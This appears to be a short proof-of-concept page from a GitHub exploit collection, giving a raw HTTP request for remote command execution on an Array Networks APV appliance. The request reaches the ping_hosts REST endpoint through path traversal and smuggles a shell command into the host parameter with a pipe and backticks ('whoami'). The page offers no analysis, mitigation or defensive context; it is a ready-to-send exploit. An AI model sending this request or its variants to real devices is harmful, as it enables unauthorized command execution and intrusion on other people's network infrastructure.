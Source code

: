 # Array-Networks-APV_ping_hosts_rce

```
POST /restapi/../rest/ping_hosts HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

["127.0.0.1| echo `whoami` received 2 3 4"]=1&csrfmiddlewaretoken=cXLnOdGshlksqOG0Ubnn4SlBvO8zOdWW
```

from:  https://github.com/wy876/POC/blob/main/Array-APV/Array-APV%E5%BA%94%E7%94%A8%E4%BA%A4%E4%BB%98%E7%B3%BB%E7%BB%9Fping_hosts%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md
